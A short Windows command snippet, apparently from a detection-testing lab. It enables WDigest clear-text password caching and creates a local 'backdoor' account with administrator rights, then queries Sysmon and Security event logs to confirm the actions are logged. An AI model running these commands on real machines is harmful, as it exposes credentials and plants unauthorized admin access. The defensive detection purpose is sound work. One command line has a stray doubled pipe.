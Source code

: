 # enable clear-text passwords in memory
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential 

# Query eventlogs with powershell
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | where { $_.id -eq 12 -or $_.id -eq 13} | Select-Object -first 1 -property MachineName,Message | FL

# add new local user (event ID 4720)
# add user to local admin group (event ID 4732)

net user backdoor password /ADD
net localgroup administrators backdoor /add
net localgroup "Administrators"

Get-WinEvent -LogName "Security" | where { $_.id -eq 4732} | | Select-Object -first 1 -Property * | FL
